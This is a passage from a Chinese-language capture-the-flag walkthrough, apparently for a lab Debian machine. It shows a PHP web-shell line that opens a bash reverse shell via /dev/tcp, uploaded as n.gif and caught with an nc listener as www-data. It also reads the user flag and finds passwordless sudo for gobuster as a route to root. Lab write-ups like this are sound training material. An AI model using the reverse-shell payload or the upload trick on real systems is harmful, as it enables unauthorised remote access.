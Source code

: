 ## 提权

将其替换为提权语句，`kali`开启监听，上传

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");?>
```

![image.png](image%20113.png)

然后访问`n.gif` ，获得`shell`

```bash
⚡ root@kali  ~  nc -lvp 4444                         
listening on [any] 4444 ...
id
192.168.56.31: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.4] from (UNKNOWN) [192.168.56.31] 50214
bash: cannot set terminal process group (739): Inappropriate ioctl for device
bash: no job control in this shell
www-data@debian:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@debian:/var/www/html/uploads$ 
```

在`rodgar`用户家目录可以找到`UserFlag`

```bash
www-data@debian:/home/rodgar$ cat user.txt
b45cffe084dd3d20d928bee
```

查看权限可以`root`权限执行`gobuster`

```bash
www-data@debian:/home/rodgar$ sudo -l
sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /usr/bin/gobuster
```
